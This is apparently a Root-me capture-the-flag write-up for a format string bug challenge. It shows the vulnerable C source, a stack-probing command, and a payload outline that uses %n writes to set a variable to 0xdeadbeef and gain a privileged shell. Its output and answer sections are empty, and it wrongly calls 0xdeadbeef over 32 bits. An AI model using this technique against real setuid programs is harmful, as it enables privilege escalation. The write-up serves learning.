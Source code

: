 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br><br>
![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)
## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no format specifier. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload<br>
`./ch14 $(python -c "print 'AAAA' + '%x'")`<br>
Output:
```
```

Exploit:
"0xdeadbeef"  is too large (over 32 bits), we have to divide **check** into **0xdead (57005)** and **0xbeef (48879)**.
7 times %8x to pull esp in front of the check.
%48811c%n output (0xbeef)
%8126c%n(0xdead)
in other words, payload is (beef address) + (dummy) + (dead address) + %8x*7 + (%48811c%n%8126c%n)
Pass: 


